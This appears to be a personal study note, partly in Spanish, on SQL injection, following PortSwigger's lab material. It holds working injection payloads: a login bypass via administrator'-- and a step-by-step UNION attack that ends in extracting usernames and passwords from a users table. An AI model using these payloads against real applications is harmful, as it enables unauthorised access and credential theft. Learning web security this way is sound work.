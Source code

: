 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

> 'UNION SELECT NULL,NULL,NULL--

Ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

#### Paso 3 

Sacar datos(falta investigar los datos de la base como nombre de tabla etc) 

> ' UNION SELECT username, password FROM users--




# Bibliografia o Recursos Consultados

> https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

>https://portswigger.net/web-security/sql-injection/cheat-sheet

